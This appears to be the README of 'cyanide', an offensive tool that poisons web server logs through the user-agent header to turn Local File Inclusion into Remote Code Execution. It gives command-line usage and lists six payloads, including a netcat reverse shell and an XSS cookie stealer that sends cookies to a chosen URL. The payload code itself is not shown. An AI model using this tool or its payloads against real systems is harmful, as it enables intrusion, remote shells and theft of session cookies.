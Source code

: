 # cyanide
[![Visits Badge](https://badges.strrl.dev/visits/Noxtal/cyanide)](https://badges.strrl.dev)

(a wiki is available [here](https://cyanide.noxtal.com))

Cyanide is a tool to poison request logs by injecting a payload in the user-agent. They can then be accessed back using an Local File Inclusion to trigger Remote Code Execution. It currently has a total of 6 great standalone payloads.

## Installation
As of now, the only way of using this project is by cloning the repo or with [this download link](https://github.com/Noxtal/cyanide/archive/refs/heads/master.zip").

## Usage
```
usage: cyanide.py [-h] [-q] [-Pl] [-pl [PAYLOAD ...]] [-m METHOD] [-P PARAMETER]
                  [-C COOKIES] [-e] [-E] [-p PREFIX] [-s SUFFIX] [-u URL]

Log poisoner. Turns a Local File Inclusion to a Remote Code Execution. Counts 6
different payloads for now.

optional arguments:
  -h, --help            show this help message and exit
  -q, --quiet, --no-banner
                        Quiet mode. No banner.
  -Pl, --payloads, --list
                        List all possible payloads.
  -pl [PAYLOAD ...], --payload [PAYLOAD ...], --set-payload [PAYLOAD ...]
                        Set payload (by index or ID). Use -Pl to list available
                        payloads.
  -m METHOD, --method METHOD
                        HTTP request method. Ex.: POST
  -P PARAMETER, --par PARAMETER, --parameter PARAMETER
                        Query parameter name. Ex.: '-P view' => '?view='
  -C COOKIES, --cookies COOKIES
                        Set request cookies such as PHP session in JSON format (ex.:
                        '{"key":"value", ...}').
  -e, --encode, --dds-encode
                        URL encode ../
  -E, --double-encode, --dds-double-encode
                        Double-encode ../
  -p PREFIX, --prefix PREFIX
                        Query prefix. Ex.: '../../../../../etc/cat/'
  -s SUFFIX, --suffix SUFFIX
                        Query suffix. Ex.: '&other='
  -u URL, --URL URL, --url URL
                        URL to attack.
```

Payloads:
```
[?] PHPCMD (min. 72 chars, requires 0 args) -> PHP Simple Command Injection: [PHP] Simple command injection with query variable 'c'. Usage: Ex.: ?c=ls
[?] PHPB64CMD (min. 102 chars, requires 0 args) -> PHP Simple Base64 Command Injection: [PHP] Simple command injection with query variable 'b', but the command is base64 and URL encoded. Usage: Ex.: ?b=bHM%3D
[?] PHPREVSHELL (min. 78 chars, requires 2 args) -> PHP Simple NETCAT Reverse Shell: [PHP] Simple Reverse Shell. Needs two arguments, the IP and port. WARNING: REQUIRES Netcat. Usage: Specify the arguments after choosing the payload. Ex.: -pl PHPREVSHELL 127.0.0.1 4444
[?] PHPREADFILE (min. 130 chars, requires 0 args) -> PHP File Reader: [PHP] Read a file's contents. Using parameter 'f' to specificy a filename. Usage: Ex.: ?f=filename.ext
[?] PHPUPLOAD (min. 328 chars, requires 0 args) -> PHP Simple File Upload: [PHP] Simple file upload page to pop in the logs. Usage: You should find a typical file upload section in the logs.
[?] JSCOOKIEXSS (min. 104 chars, requires 1 args) -> JavaScript Simple XSS Cookie Stealer: [JS] Simple XSS Cookie Stealer. Needs one argument being the link to send a request with the cookies to. Usage: Specify the URL after choosing the payload. Ex.: -pl JSCOOKIEXSS http://myurl.com/
```
